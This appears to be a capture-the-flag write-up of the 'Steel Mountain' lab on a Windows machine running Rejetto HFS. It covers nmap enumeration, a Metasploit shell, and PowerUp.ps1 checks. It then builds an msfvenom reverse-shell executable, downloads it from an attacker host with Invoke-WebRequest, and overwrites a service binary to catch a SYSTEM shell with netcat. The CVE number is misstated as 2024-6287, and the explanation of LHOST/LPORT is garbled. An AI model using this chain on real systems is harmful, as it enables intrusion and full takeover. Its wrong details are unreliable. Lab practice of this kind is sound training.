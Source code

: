 # Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?

#### Solution:

#### Enumeration Part

Run the following nmap command in order to scan the target machine.

```bash 
sudo nmap -sS --top-ports 200 10.10.139.106
```
![Alt text](../Screenshots/Steel_Mountain/nmap_output.png)

We can see that http-proxy is running on port 8080. So,
#### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

![Alt text](../Screenshots/Steel_Mountain/file_server_link.png)

As I clicked, I shown up a page:
![Alt text](../Screenshots/Steel_Mountain/service_running.png)

#### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showed me following output:
![Alt text](../Screenshots/Steel_Mountain/metasploit_exploits.png)

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:
![Alt text](../Screenshots/Steel_Mountain/meterpreter.png)

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:
![Alt text](../Screenshots/Steel_Mountain/user_flag.png)

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
```bash
upload /path/to/PowerUp.ps1
```

This path is the path of the script in your attacker machine.
![Alt text](../Screenshots/Steel_Mountain/upload_powerup.png)

Now, in meterpreter, hit the command:
```
shell
```
Then go to the path where Powerup.ps1 script is present and enter the followind command:
```
powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"
```
Above command will shown up the service that can be exploited, a part of it is shown below:

![Alt text](../Screenshots/Steel_Mountain/script_output.png)

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

#### Creating paylod

using msfconsole, we can make our payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_machine_ip LPORT=attacker_machine_port -f exe -o Advanced.exe
```
To transfer this payload, we need to run the python server so that we are able to access this payload from the shell of target machine. Command to run python server:
```
python -m http.server 8000
```
Now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
```
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://attacker_machine_ip:attacker_machine_port/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"
```
Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.
![Alt text](../Screenshots/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

![Alt text](../Screenshots/Steel_Mountain/root_flag.png)

